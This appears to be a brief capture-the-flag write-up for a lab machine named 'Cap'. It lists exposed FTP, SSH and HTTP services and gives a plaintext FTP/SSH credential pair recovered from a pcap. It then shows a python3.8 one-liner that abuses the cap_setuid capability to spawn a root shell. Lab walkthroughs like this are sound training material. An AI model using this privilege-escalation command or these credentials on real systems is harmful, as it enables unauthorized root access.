 # Cap

### Exploitation

- port 21/tcp FTP vsftpd 3.0.3
- port 22/tcp SSH OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- port 80/tcp HTTP gunicorn

/data/0 contains a pcap file of ftp login information

nathan:Buck3tH4TF0RM3!

### Exploitation

FTP credentials found in /data/0 give us access to the user.txt file and SSH login

### Privilege Escalation

Running linpeas.sh shows that python 3.8 has the cap_setuid, cap_net_bind_service+eip capabilities, allowing 
us to spawn root shells with the following command:

`/usr/bin/python3.8 -c 'import os;os.setuid(0);os.system("/bin/bash")'`
